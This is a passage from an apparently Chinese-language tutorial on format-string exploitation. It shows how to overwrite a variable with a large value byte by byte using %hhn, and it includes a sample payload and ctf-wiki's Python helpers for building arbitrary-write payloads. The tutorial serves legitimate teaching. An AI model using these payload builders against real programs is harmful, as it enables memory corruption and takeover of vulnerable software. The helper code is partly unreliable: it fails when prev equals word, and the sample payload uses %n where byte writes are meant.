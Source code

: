在这一部分给大家讲解覆盖大数字的操作，我们可以选择一次性输出大数字个字符来进行覆盖，但基本上不会成功，因为太长。而且即使成功，一次性等待的时间也太长，所以我们考虑用其他的方法，在介绍方法前我们先了解一下变量在内存中的存储格式。  
  
所有的变量在内存中都是以字节进行存储，在x86和x64体系结构中，变量的存储格式为小端存储，即最低有效位存储在低地址，以0x12345678在内存中由低地址到高地址依次为\x78\x56\x34\x12，这里我们涉及到两个格式化字符串的标志  
```
hh 整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  证书类型，printf期待一个从short提升的int尺寸的整型参数。

```  
  
看到这里，我们不难看出，我们可以利用%hhn向某个地址写入单字节，利用%hn向某个地址写入双字节。用单字节为例  
  
还是用前面的程序作为例子，我们的目的是这样的  
```
b == 0x12345678

```  
  
在达到目的之前，跟之前一样，我们需要先确认一下b的地址，还是使用我们的老朋友Ghidra来确认b的地址  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib722IFo7PrF7OAxPibj0iaoLRm8C8V1dOUUt2kXs02pW9dboRevfSZM2PJQ/640?wx_fmt=png&from=appmsg "")  
  
这里看出来b的地址为0x0804c028  
  
所以我们想覆盖成这样  
```
0x0804c028 \x78
0x0804c029 \x56
0x0804c02a \x34
0x0804c02b \x12

```  
  
前面提到过，我们的字符串的偏移量为6，所以payload如下  
```
p32(0x0804c028) + p32(0x0804c029) + p32(0x0804c02a) + p32(0x0804c02b) + pad1 + '%6$n'+ pad2 + '%7$n'+ pad3 + '%8$n'+ pad4 + '%9$n'

```  
  
这里我们就站在巨人的肩膀上直接借用ctf-wiki的基本构造  
```
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload

```